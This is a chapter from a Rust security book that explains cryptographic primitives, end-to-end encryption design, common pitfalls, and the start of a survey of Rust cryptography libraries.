+++
title = "Black Hat Rust - Chapter 11"
date = 2021-01-01T6:00:00Z
type = "page"
url = "/black-hat-rust/11"
access = "paid_members"
+++


# Securing communications with end-to-end encryption

In today's world, understanding cryptography is a prerequisite for anything serious related to technology, and especially security. From credit cards to cryptocurrencies, passing by secure messengers, password managers, and the web itself, cryptography is everywhere and provides bits of security in the digital world where everything can be instantly transmitted and copied almost infinitely for a cost of virtually $0.

Do you want that the words you send to your relatives be publicly accessible? Do you want your credit card to be easily copied? Do you want your password to leak to any bad actor listening to your network? Cryptography provides technical solutions to these kinds of problems.

End-to-end encryption is considered the holy grail of communication security because it's the closest we achieve to mimicking real-life communication. In a conversation, only the invited persons are able to join the circle and take part in the discussion. Any intruder will be quickly ejected. End-to-end encryption provides the same guarantees, only invited parties can listen to the conversation and participate. But, as we will see, it also adds complexity and is not bulletproof.


## The C.I.A triad

<!--
https://en.wikipedia.org/wiki/Information_security
https://whatis.techkerkour.com/definition/Confidentiality-integrity-and-availability-CIA
https://www.csoonline.com/article/3519908/the-cia-triad-definition-components-and-examples.html
https://web.archive.org/web/20210304184808/https://www.forcepoint.com/cyber-edu/cia-triad
https://www.f5.com/labs/articles/education/what-is-the-cia-triad
-->


The cyberworld is highly adversarial and unpardonable. In real life, when you talk with someone else, only you and your interlocutor will ever know what you talked about. On the internet, whenever you talk with someone, your messages are saved in a database and may be accessible by employees of the company developing the app you are using, some government agents, or if the database is hacked by the entire world.



### Confidentiality

Confidentiality is the protection of private or sensitive information from unauthorized access.

Its opposite is **disclosure**.

### Integrity

Integrity is the protection of data from alteration by unauthorized parties.

Its opposite is **alteration**.

### Availability

Information should be consistently accessible.

Many things can cripple availability, including hardware or software failure, power failure, natural disasters, attacks, or human error.

Is your new shiny secure application effective if it depends on servers, and the servers are down?

The best way to guarantee availability is to identify single points of failure and provide redundancy.

Its opposite is **denial of access**.


## Threat modeling

<!-- TODO: https://protonmail.com/blog/what-is-a-threat-model/ -->

Threat modeling is the systematic analysis of potential risks and attack vectors in order to develop defenses and countermeasures against these threats.

Put another way, it's the art of finding against who and what you defend and what can go wrong in a system.

According to the [Threat Modeling Manifesto](https://www.threatmodelingmanifesto.org/), at the highest levels, when we threat model, we ask four key questions:

1. What are we working on?
2. What can go wrong?
3. What are we going to do about it?
4. Did we do a good enough job?


Threat modeling must be done during the design phase of a project, it allows to pinpoint issues that require mitigation.


## Cryptography

> Cryptography, or cryptology (from Ancient Greek: *κρυπτός*, romanized: *kryptós* "hidden, secret"; and *γράφειν* graphein, "to write", or *-λογία* -logia, "study", respectively), is the practice and study of techniques for secure communication in the presence of third parties called adversaries.

Put another way, cryptography is the science and art of sharing confidential information with trusted parties.

Encryption is certainly the first thing that comes to your mind when you hear (or read) the word cryptography, but, as we will see, it's not the only kind of operation needed to secure a system.


<!-- ### Introducing Alice and Bob

In the crypto world, we often need to picture two parties trying to communicate securely. They are. by convention, named Alice and Bob.
 -->

### Primitives and protocols

**Primitives** are the building blocks of cryptography. They are like lego bricks.

Examples of primitives: `SHA-3`, `Blake2b`, `AES-256-GCM`.


**Protocols** are the assembly of primitives in order to secure an application. They are like a house made of lego bricks.

Examples of protocols: `TLS`, `Signal`, `Noise`.


## Hash functions



A hash function takes as input an arbitrarily long message, and produces a fixed-length hash.


Each identical message produces the same hash. On the other hand, two different messages should never produce the same hash.

They are useful to verify the integrity of files, without having to compare/send the entire file(s).

You certainly already encountered them on download pages.




Examples of Hash functions: `SHA-3`, `Blake2b`, `Blake3`.

There are also `MD5` and `SHA-1`, but they **SHOULD NOT BE USED TODAY** as real-world attacks [exist](https://en.wikipedia.org/wiki/SHA-1#Attacks) against those functions.


## Message Authentication Codes

MAC (Message Authentication Code) functions are the mix of a hash function and a secret key.



The secret key allows authentication: only the parties with the knowledge of the secret key are able to produce a valid authenticated hash (also called a tag or a code).

MACs are also known as Keyed hashing.


An example of usage of MACs are [JSON Web Tokens](https://jwt.io/) (JWTs): only the server with the knowledge of the secret key is able to issue valid tokens.


## Key derivation functions

Key Derivation Functions (KDFs) allow creating a secure key from a not-so-secure source.





There are two kinds of Key Derivation Functions:

Functions that accept as input a low entropy input, such as a password, a passphrase or a big number, and produce a high-entropy, secure output. They are also known as **PBKDF for Password Based Key Derivation Functions**. For example `Argon2d` and `PBKDF2`.

And functions that accept a high-entropy input, such as an already securely generated random vector, and produce an also high-entropy output. For example: `Blake2b`.

Note that a function like `Blake2b` is polyvalent, and you can also use it with a secret key as a MAC.


## Block ciphers

Block ciphers are the most famous encryption primitives and certainly the ones you think about when you read the word "cryptography".

You give to a block cipher a message (also known as **plaintext**) and a secret key, and it outputs an encrypted message, also known as **ciphertext**. Given the same secret key, you will then be able to decrypt the ciphertext to recover the original message, bit for bit identical.

Most of the time, the ciphertext is of the same size as the plaintext.



An example of block cipher is `AES-CBC`.


## Authenticated encryption (AEAD)

Because most of the time, when you are encrypting a message, you also want to authenticate the ciphertext, authenticated encryption algorithms are born.

They can be seen as encrypt-then-MAC for the encryption step, and verify-MAC-then-decrypt for the decryption step.

Given a plaintext, a secret key, and optional additional data, the algorithm will produce a ciphertext with an authentication tag (often appended to the ciphertext). Given the cipher, the same secret key, and the same additional data,



But, if the ciphertext or the additional data used for decryption are wrong (modified), the algorithm will fail and return an error before trying to decrypt the data.




The advantages over encrypt-then-MAC are that it requires only one key, and it's far easier to use, and thus reducing the probability of introducing a vulnerability by mixing different primitives together.


Authenticated Encryption with Additional Data is also known as **AEAD**.

**Nowadays, AEAD are the (universally) recommended solution to use when you need to encrypt data**.

Why?

Imagine that Alice wants to send an encrypted message to Bob, using a pre-arranged secret key. If Alice used a simple block cipher, the encrypted message could be intercepted in transit, modified (while still being in its encrypted form), and transmitted modified to Bob. When Bob decrypts the ciphertext, it may produce gibberish data! Integrity (remember the C.I.A triad) is broken.

As another example, imagine you want to store an encrypted wallet amount in a database. If you don't use associated data, a malicious database administrator could swap the amount of two users, and it would go unnoticed. On the other hand, with authenticated encryption, you can use the `user_id` as associated data and mitigate the risk of encrypted data swapping.


## Asymmetric encryption

a.k.a. Public-key cryptography.

The principle is simple. Encryption keys come in pairs:

- A **public key** is a key that should be shared with others so they can use it to encrypt data intended for you, and only you.
- A **private key** is a secret that should never be shared with anyone and that allows you to decrypt data that was previously encrypted with the public key.

The tuple `(private key, public key)` is called a **keypair**.




The advantage over symmetric encryption like block ciphers, is that it's easy to exchange the public keys. They can be put on a website, for example.


Asymmetric encryption is **not** used as is in the real world, instead, protocols (like the one we will design and implement) are designed using a mix of authenticated encryption, Key exchange, and signature algorithms (more on that below).


## Diffie–Hellman key exchange

Diffie–Hellman key exchange (more commonly called key exchange) is a method to establish a **shared secret** between two parties through a public channel.

The same shared secret can be derived from Alice's public key and Bob's private key than from Bob's public key and Alice's private key. Thus, both Alice and Bob can compute the same shared secret using their respective private keys and the other one's public key.

Nowadays, the recommended key exchange functions to use are [Elliptic-curve Diffie–Hellman (**ECDH**)](https://en.wikipedia.org/wiki/Elliptic-curve_Diffie%E2%80%93Hellman), which are way simpler to implement than RSA encryption.


However,  shared secrets computed through ECDH key exchange can't be used directly for symmetric encryption. Most AEAD algorithms expect a uniformly random symmetric key which shared secrets are not. Thus, to "increase their entropy", we pass the output of the key exchange function into a **Key Derivation Function (KDF)** to generate a shared secret key that can be used for symmetric encryption.




The (certainly) most famous and used Key Exchange algorithm (and the one I recommend you to use if you have no specific requirement) is: `x25519`.


## Signatures

Signatures are the asymmetric equivalent of MACs: given a keypair and a message (comprised of a private key and a public key), the private key can produce a signature of the message. The public key can then be used to verify that the signature has indeed been issued by someone (or something) with the knowledge of the private key.




Like all asymmetric algorithms, the public key is safe to share, and as we will see later, public keys of signature algorithms are, most of the time, the foundations of digital (crypto)-identities.


The (certainly) most famous and used Signature algorithm (and the one I recommend you to use if you have no specific requirement) is: `ed25519`.


## End-to-end encryption


End-to-end encryption is a family of protocols where only the communicating users are in possession of the keys used for encryption and signature of the messages.





Now that most of our communications are digital, a problem arises: **How to keep our messages private despite all the intermediaries?** Internet Service Providers (ISPs) and Service providers (Facebook, Telegram, Line, WeChat...) are all in a position of Man-In-The-Middle (MITM) and are able to inspect, record, and even modify our communications without our consent or knowledge.

And this is before talking about malicious actors.





You may think that you have nothing to hide, so it doesn't matter. Think twice.

- What can happen if all your messages and your web browsing history are stored forever and accessible by the employees of those companies? While in the first place I'm certainly not comfortable with having strangers looking at my message, the point is that over time, the chances of a leak or a hack are 100% as everything digital can be copied at (almost) the speed of light. Thus all your communication should be (soon to be) considered public.
- You may have nothing to hide in today's world. But if history taught us one thing, it's that even if you consider yourself "normal", a crazy dictator can seize power (or be elected) and start imprisoning or exterminating entire chunks of the population because of their hobbies, hair color, or size.


This is where **end-to-end encryption (E2EE)** comes into play. With E2EE, only the intended recipients are able to decrypt and read the messages. Thus, none of the intermediaries can inspect, store or modify your private messages.





Before going further, I want to clarify a few things.

When we talk about a "message", it's not necessarily an email or a chat message. It can also be a network packet, so anything you do online, from visiting websites to buying shoes passing by gaming.


**How can we encrypt a message in a way that only our dear friend Bob is able to decrypt it?**


### Public-key cryptography

Could we simply use asymmetric encryption?




Because I need to know Bob's public key before sending him a message, his public key is kind of his digital **identity**. Usually, I can get Bob's public key through the same app I'm using to send him a message, but I need to verify (using another channel, like a face-to-face meeting) with him that the public key the service served me is Bob's one and not a malicious one.


Because only the owner of the private key is able to decrypt content encrypted with the public key, from a cryptographic point of view, **1 public key = 1 identity**.


Is it enough to secure our communication?

Wait a minute!

Reality is quite different: public-key encryption is limited in the length of the messages it can encrypt and is painfully slow.


### Hybrid encryption

Hybrid encryption takes the best of symmetric encryption and asymmetric encryption: messages are encrypted with symmetric encryption (fast, any length, safe...), and only the ephemeral symmetric secret key (short, with a length of 256 bits - 32 bytes most of the time) is encrypted using asymmetric encryption.

The symmetric key is said to be ephemeral because it is discarded by both parties once the message is encrypted / decrypted and a new key is generated to encrypt each message.





With this scheme, **1 public key still equals 1 identity**, but we can now encrypt messages of any length at max speed.


Yet, the situation is still not perfect. To offer good security, RSA keys tend to be large (3072 bits or more), and RSA encryption is not that easy to get right (principally related to padding), which is a big source of bugs.


### Diffie–Hellman key exchange





So, is E2EE simply key exchange + AEAD?

Hold on! What happens if our private key is leaked?

If one of the intermediaries recorded all our messages and our private key leaked, the malicious actor would be able to **decrypt all the messages**! Past, present, and future.

This is basically how [PGP](https://en.wikipedia.org/wiki/Pretty_Good_Privacy) works and the principal reason it's criticized by cryptographers.

As managing keys is known to be hard, it's not a matter of *"if"*, but of *"when"*.


### Forward Secrecy

Forward Secrecy (also known as Perfect Forward Secrecy) is a feature of protocols that guarantees that if a key leaks at the moment `T`, messages sent before, at `T-1`, `T-2`, `T-3`... can't be decrypted.




To implement forward secrecy, we could simply create many keypairs, use one keypair per message and delete it after the message is received.

But then we would lose our feature that **1 public key = 1 identity**: we would need to verify with Bob for each message that each public key is legitimate and actually comes from Bob, and not a MITM attacker, which is impracticable.


Unless...

### Signatures


Signatures allow a person in possession of a private key to authenticate a document or a message. By signing the message or document, the private key owner attests to its validity. Then, everybody who has access to the public key can verify that the signature matches the document.

Thus, **Signatures are the perfect tool to build a digital identity**.

Let see how to use signatures with encryption to secure our communications.


### End-to-end encryption




**1.** Bob Generates a signature keypair and a key exchange (ephemeral) keypair. He signs the key exchange keypair with the key exchange public key and then publishes both public keys plus the signature.

**2.** Alice fetches both public keys and the signature. She verifies that the signatures match the key exchange keypair. If the signature matches, then we are sure that the key exchange public key comes from Bob.

**3.** Alices generates a key exchange (ephemeral) keypair. She performs a key exchange with her private key and Bob's public key to generate a shared secret and pass it into a KDF to generate a symmetric secret key. She uses this secret key to encrypt her message. She then signs the key exchange public key and can now destroy the private key exchange private key.

**4.** Alices sends her public key exchange key, encrypted message, and signature to Bob.

**5.** Bob verifies that the signature is valid with Alice's public signing key. If everything is good, he can now use the public key exchange key that Alice just sent him to perform a key exchange with his key exchange private key and pass the shared secret into a KDF to generate exactly the same symmetric secret key as Alice. With that secret key, he can finally decrypt the message.


One interesting thing to note is that Alice only signs the public key exchange key and not the whole encrypted message because the integrity and authenticity of the message are guaranteed thanks to **AEAD** encryption. If any bit of the encrypted message or public key is modified by a malicious actor, the decryption operations will fail and return an error.

Key exchange keypairs are called **ephemeral** because they are no longer used after the message is sent or decrypted. On the other hand, signing keys are called **long-term** keys as they need to be renewed only when a leak happens (or is suspected).

It's a lot of effort to send a message, but it's totally worth it. We now have a single identity key: the public signing key, and we can use as many encryption keys as we want. We just need to sign those encryption keys.

Furthermore, we could use this signing key for many other things, such as signing documents, contracts...


In short, **Modern end-to-end encryption = Signatures + Key exchange + AEAD**

**Signatures** are the long-term identity keys and are used to sign ephemeral key exchange keys.

Ephemeral **key exchange keys** are used to encrypt symmetric AEAD keys.

**AEAD** keys are used to encrypt the messages.


This is for the theory. In practice, you have to keep in mind that while E2EE is desirable, it's not a silver bullet, and a motivated attacker can still eavesdrop on your communications:

- A lot of people prefer to have their chat and emails backed up, and those backups are not encrypted.
- Devices can be compromised, and messages can be exfiltrated directly from the devices, bypassing all forms of encryption.
- Anybody can take a screenshot or even a picture of the screen.


Advanced protocols like Signal add even more techniques such as [the double ratchet](https://signal.org/docs/specifications/doubleratchet/) and [ephemeral key bundles](https://signal.org/docs/specifications/x3dh/) to add even more security guarantees.


## Who uses cryptography


Everybody, almost everywhere!


As you may have guessed, **militaries** are those who may need it the most to protect their communications, from [spartans](http://all.net/edu/curr/ip/Chap2-1.html) to the famous [Enigma machine](https://en.wikipedia.org/wiki/Enigma_machine) used by Germany during World War II.

Web: when communicating with websites, your data is encrypted using the [TLS](https://en.wikipedia.org/wiki/Transport_Layer_Security) protocol.


Secure messaging apps such as ([Signal](https://signal.org/) and [Element](https://element.io/) use end-to-end encryption to fight mass surveillance. They mostly use the `Signal` protocol for end-to-end encryption, or derivatives (such as [Olm](https://gitlab.matrix.org/matrix-org/olm/-/blob/master/docs/olm.md) and [Megolm](https://gitlab.matrix.org/matrix-org/olm/-/blob/master/docs/megolm.md) for Matrix/Element).


Blockchain and cryptocurrencies have been a booming field since the introduction of Bitcoin in 2009. With secure messaging, this field is certainly one of the major reasons cryptography is going mainstream these days, with everybody wanting to launch their own blockchain.
One of the (unfortunate) reasons is that both "crypto-currencies" and "cryptography" are both often abbreviated "crypto" to the great displeasure of cryptographers seeing their communities flooded by "crypto-noobs" and scammers.


Your new shiny smartphone just has been stolen by street crooks? Fortunately for you, your personal pictures are safe from them, thanks to **device encryption** (provided you have a strong enough passcode).


DRM (for Digital Rights Management or Digital Restrictions Management) is certainly the most bullshit use of cryptography whose unique purpose is to create artificial scarcity of digital resources. DRMs are, and will always be breakable, by design. Fight DRM, the sole effect of such a system is to annoy legitimate buyers, because, you know, the content of the pirates have DRM removed!


And, of course, offensive security: when you want to exfiltrate data, you may not want the exfiltrated data to be detected by monitoring systems or recovered during forensic investigations.


## Common problems and pitfalls with cryptography

There are important things that I think every cryptographer (which I'm not) agree with:

* key management is extremely hard
* Use Authenticated encryption as much as you can, and public-key cryptography as carefully as you can
* You should **NOT** implement primitives yourself
* Crypto at scale on consumer hardware can be unreliable


### key management is extremely hard

Whether it be keeping secret keys actually secret, or distributing public keys, key management is not a solved problem yet.


### Use Authenticated encryption

Block ciphers and MACs allow for too many footguns.

Today, you should use `AES-256-GCM`, `Chacha20-Poly1305` or `XChacha20-poly1305`.


### You should **NOT** implement primitives yourself

Implementing an encryption protocol yourself is feasible. It's hard but feasible. It can be tested for correctness with unit and integration tests.

On the other hand, even if you can test your own implementation of primitives with [test vectors](https://cryptography.io/en/latest/development/test-vectors/), there are many other dangers waiting for you:

* side-channel leaks
* non-constant time programming
* and a lot of other things that may make your code not secure for real-world usage.


### Crypto at scale on consumer hardware can be unreliable

As we saw in chapter 09, bit flips happen. The problem is that in a crypto algorithm, a single bit flip effectively changes everything to the output, **by design**. Whether it be electrical or magnetic interference, [cosmic rays](https://groups.google.com/a/chromium.org/g/ct-policy/c/PCkKU357M2Q/) (this is one of the reasons that space computing systems have a lot of redundancy) or whatever, it may break the state of your crypto application which is extremely problematic if you use ratcheting or chains of blocks.

One of the countermeasures is to use [ECC memory](https://en.wikipedia.org/wiki/ECC_memory), which detects and correct n-bit memory errors.

<!-- That being said, have you ever experienced encryption errors when using encrypted messengers such as WhatsApp? Personally, no, so it should not be that common -->


## A little bit of TOFU?

As stated before, key distribution is hard.

Let's take the example of a secure messaging app such as Signal: you can send messages to anybody, even if you haven't verified their identity key, because you may not be able to manually verify, in person, the QR code of your recipient the moment you want to send them a message.

This pattern is known as Trust On First Use (TOFU): You trust that the public key, sent to you by Signal's servers, is legitimate and not a malicious one.

You are then free to manually verify the key (by scanning a QR code or comparing numbers), but it's not required to continue the conversation.

TOFU is insecure by default but still provides the best compromise between security and usability, which is required for mass adoption beyond crypto people.


## The Rust cryptography ecosystem

**37.2% of vulnerabilities in cryptographic libraries are memory safety issues**, while only 27.2%  are cryptographic issues, according to an [empirical Study of Vulnerabilities in Cryptographic Libraries](https://arxiv.org/abs/2107.04940) (*Jenny Blessing, Michael A. Specter, Daniel J. Weitzner - MIT)*.

I think it's time that we move on from C as the *de-facto* language for implementing cryptographic primitive.


Due to its high-level nature with low-level controls, absence of garbage collector, portability, and [ease of embedding](https://doc.rust-lang.org/nomicon/ffi.html#calling-rust-code-from-c), Rust is our best bet to replace today's most famous crypto libraries: [OpenSSL](https://www.openssl.org), [BoringSSL](https://boringssl.googlesource.com/boringssl) and [libsodium](https://github.com/jedisct1/libsodium), which are all written in C.

It will take time for sure, but in 2019, `rustls` (a library we will see later) was [benchmarked](https://jbp.io/2019/07/01/rustls-vs-openssl-performance.html) to be 5% to 70% faster than `OpenSSL`, depending on the task. One of the most important things (that is missing today) to see broad adoption? Certifications (such as [FIPS](https://csrc.nist.gov/publications/detail/fips/140/3/final)).

Without further ado, here is a survey of the Rust cryptography ecosystem in 2021.

### sodiumoxide

[sodiumoxide](https://github.com/sodiumoxide/sodiumoxide) is a Rust wrapper for [libsodium](https://github.com/jedisct1/libsodium), the renowned C cryptography library recommended by most applied cryptographers.

The drawback of this library is that as it's C bindings, it may introduce hard-to-debug bugs.

